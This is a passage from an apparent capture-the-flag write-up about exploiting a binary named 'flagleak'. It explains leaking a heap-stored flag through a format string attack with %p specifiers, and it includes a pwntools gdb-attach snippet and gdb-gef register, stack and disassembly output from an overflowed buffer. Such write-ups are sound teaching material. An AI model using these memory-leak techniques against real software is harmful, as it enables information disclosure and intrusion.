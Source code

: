 ## Format string
Now that we have reached _print\_flag_ function, we will try to leak the flag.
It is common practice to give a lot of `%p`s or `%x`s to the format string to leak values from the program's stack. The flag is stored in heap. Let's fire gdb to know the general pattern of the heap chunk's address. I'm using [gdb-gef](https://github.com/hugsy/gef). Put a break point after the malloc. To run gdb after the payload, add the following lines before `p.send(payload)`:
```py
attach(p, '''
b *print_flag+43
continue
''')
input('ATTACHED?')
```
```
Breakpoint 1, 0x0000000000401210 in print_flag ()
$rax   : 0x0000000000e782a0  →  0x0000000000000000
$rbx   : 0x0               
$rcx   : 0x0000000000e782d0  →  0x0000000000000000
$rdx   : 0x41              
$rsp   : 0x00007ffe9b0a53c0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbp   : 0x00007ffe9b0a5400  →  "AAAAAAAA"
$rsi   : 0x30              
$rdi   : 0x0000000000e782a0  →  0x0000000000000000
$rip   : 0x0000000000401210  →  <print_flag+43> mov QWORD PTR [rbp-0x10], rax
$r8    : 0x0000000000e782a0  →  0x0000000000000000
$r9    : 0x00007fe17d9b8be0  →  0x0000000000e782d0  →  0x0000000000000000
$r10   : 0x2b0             
$r11   : 0x40              
$r12   : 0x00000000004010c0  →  <_start+0> xor ebp, ebp
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
0x00007ffe9b0a53c0│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"    ← $rsp
0x00007ffe9b0a53c8│+0x0008: 0x4141414141414141
0x00007ffe9b0a53d0│+0x0010: 0x4141414141414141
0x00007ffe9b0a53d8│+0x0018: 0x4141414141414141
0x00007ffe9b0a53e0│+0x0020: 0x4141414141414141
0x00007ffe9b0a53e8│+0x0028: 0x4141414141414141
0x00007ffe9b0a53f0│+0x0030: 0x4141414141414141
0x00007ffe9b0a53f8│+0x0038: 0x0000000300401016
     0x401203 <print_flag+30>  mov    DWORD PTR [rbp-0x4], eax
     0x401206 <print_flag+33>  mov    edi, 0x30
     0x40120b <print_flag+38>  call   0x401090 <malloc@plt>
 →   0x401210 <print_flag+43>  mov    QWORD PTR [rbp-0x10], rax
     0x401214 <print_flag+47>  cmp    DWORD PTR [rbp-0x4], 0x0
     0x401218 <print_flag+51>  jns    0x401230 <print_flag+75>
     0x40121a <print_flag+53>  lea    rdi, [rip+0xdf0]        # 0x402011
     0x401221 <print_flag+60>  call   0x4010b0 <perror@plt>
     0x401226 <print_flag+65>  mov    edi, 0xffffffff

[#0] Id 1, Name: "flagleak", stopped 0x401210 in print_flag (), reason: BREAKPOINT

[#0] 0x401210 → print_flag()
gef➤ 
```
If you run it multiple times, you will notice that the address returned by malloc (RAX) ends with `2a0`. Now we will try to leak values using `%p`s. Why `%p`? because `%p` will give us the value in hex format, using the architecture's register size. I like to use a python loop like the following to leak values in format string attacks. Here I use direct access method to access any specific offset from the stack. The format is `%(index)$p`.